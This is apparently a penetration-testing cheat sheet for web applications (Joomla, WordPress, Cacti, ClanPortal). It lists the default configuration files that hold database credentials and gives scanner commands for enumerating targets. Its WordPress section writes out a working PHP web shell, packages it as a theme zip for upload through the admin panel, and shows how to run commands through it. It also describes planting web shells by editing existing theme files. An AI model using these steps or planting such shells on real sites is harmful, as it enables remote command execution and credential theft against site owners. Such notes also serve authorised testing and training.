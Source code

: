 ------------------------------------------------------------------------------------------------------------------
## Specific Web applications

#### Joomla
```
Joomla default database configuration filename
<web-app-path>/configuration.php
Scanning Joomla! for plugins and versions
/pentest/web/scanners/joomscan/joomscan.pl -u <target-and-joomla-path>
/pentest/enumeration/web/cms-explorer  -url <target-and-joomla-path> -type joomla
```

#### WordPress
```
WordPress default database configuration filename
    <web-app-path>

WordPress default login page
    <web-app-path>/wp-login.php

WordPress plugins
    <web-app-path>/wp-content/plugins

Scanning WordPress for plugins and versions
    /pentest/web/wpscan/wpscan.rb --url <target-and-wordpress-path&gt; --proxy <proxy-addr:port> -enumerate [u|p|v|t]
    /pentest/enumeration/web/cms-explorer  -url <target-and-wordpress-path> -type wordpress

Newer WP: "Themes" can be uploaded as zip files by WP administrators i.e. you:
    mkdir wpx
    vi wpx/cmd.php
    cat wpx/cmd.php
    <?php system($_GET['cmd']) ?>
    zip -r wpx.zip wpx
    upload wpx.zip via web interface as an installed theme

Command execution access is via:
    <web-app-path>/wp-content/plugins/wpx/cmd.php?cmd=<command(s)>

Older WP:
     Webshells can be added by editing exiting files/themes via the web interface or by enabling file  upload and permitting the valid file extension (e.g. .php)
```

#### Cacti
Cacti default database configuration filename
```
<web-app-path>/include/config.php
```


#### DeV!Lz ClanPortal
```
DeV!L`z ClanPortal default database configuration filename
<web-app-path>/inc/mysql.php
```

